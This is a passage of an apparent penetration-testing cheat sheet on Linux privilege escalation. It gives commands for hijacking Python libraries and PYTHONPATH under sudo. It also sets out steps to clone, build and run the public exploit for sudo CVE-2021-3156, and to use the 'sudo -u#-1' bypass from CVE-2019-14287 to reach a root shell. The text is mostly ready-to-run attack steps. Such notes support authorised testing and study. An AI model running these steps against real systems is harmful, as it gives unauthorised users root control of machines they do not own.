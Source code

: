 ````
- Library Path

```bash
#1. show installation location of file
pip3 show <libName>
#2. find directory permissions
ls -la <DirName>
#3. find vulnerability
#4. create custom lib with rce to have root
#5. Run with sudo ( sudo DirPath pythonFIleName )
```

- PYTHONPATH Environment Variable

```bash
# see if we can use python with sudo
sudo -l
# set my own
sudo PYTHONPATH=/tmp/ <PythonPath | /usr/bin/python3> <LibFileName>
```

## Recent 0-Days

###### SUDO

- The /etc/sudoers file specifies which users or groups are allowed to run specific programs and with what privileges.

```bash
# find sudo version
sudo -V | head -n1

# find system version
cat /etc/lsb-release

sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'

# CVE-2021-3156
# 1.8.31 - Ubuntu 20.04
# 1.8.27 - Debian 10
# 1.9.2 - Fedora 33
# and others
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
./sudo-hax-me-a-sandwich
./sudo-hax-me-a-sandwich <VersionNumberProposed>


# CVE-2019-14287
#Prerequist : It had to allow a user in the /etc/sudoers file to execute a specific command.
cat /etc/passwd | grep <UserName>
sudo -u#-1 <CmdAllowed>
# if it is ncdu cmd , can press "b" inside interface to basculate to shell and do what you want with other cmd
```

###### Polkit

- PolicyKit (polkit) is an authorization service on Linux-based operating systems that allows user software and system components to communicate with each other if the user software is authorized to do so. To check whether the user software is authorized for this instruction, polkit is asked.

Polkit works with two groups of files.
````